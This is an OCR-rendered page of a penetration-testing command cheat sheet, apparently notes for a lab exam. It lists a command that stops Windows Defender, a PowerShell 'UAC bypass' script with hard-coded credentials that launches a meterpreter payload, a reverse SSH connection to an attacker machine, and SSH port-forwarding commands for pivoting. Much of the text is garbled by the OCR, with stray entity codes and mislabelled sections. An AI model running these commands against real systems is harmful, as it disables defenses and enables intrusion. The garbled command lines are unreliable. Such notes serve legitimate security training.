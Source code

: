 pipe to clipboard

> $ ls \| xclip -selection c

tar

> $ create  
> ▪ tar -cvf linux\_priv\_esc.tar.gz /root/Desktop  
> $ unzip  
> ▪ tar xvzf linux\_priv\_esc.tar.gz

kerbros auth

> $ xfreerdp /u:alice /v:10.11.1.50

## USEFUL WINDOWS COMMANDS

Find log files in directory

> $ dir /s \*log\*

Process

> $ tasklist  
> $ taskkill /F /PID pid\_number

Disable windows defender:

> $ sc stop WinDefend

UAC bypass:

> $ echo &gt; $username = "alice" &gt; run.ps1 $ echo &gt; $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force &gt;&gt; run.ps1  
> echo &gt; $mycreds = New-Object System.Management.Automation.PSCredential \(" &gt; $username", &gt; $secpasswd\) &gt;&gt; run.ps1 &gt; $ echo Start-Process veil\_meterpreter.bat -Credential \( &gt; $mycreds\) &gt;&gt; run.ps1

```text
> $ powershell -ExecutionPolicy Bypass -File run.ps1
```

## PIVOTING

Dynamic Port Forwading:

> $ SSH  
> ▪ ssh -D 9000 root@ &gt; $ip ▪ set proxychains.conf to 127.0.0.1 1080 ▪ proxy chains nc -nv 10.11.0.106 $ Reverse SSH from windows to my kali  
> ▪ systemctl start ssh.service  
> ▪putty.exe -ssh [root@10.11.0.106](mailto:root@10.11.0.106)

Local port forward:

```text
     > $  Explanation
         ▪ ssh -L 80:localhost:80 SUPERSERVER
         ▪ a connection made to the local port 80 is to be forwarded to port 80 on SUPERSERVER.

     > $  SSH
        ▪ ssh -R sourcePort:forwardToHost:onPort connectToHost
```
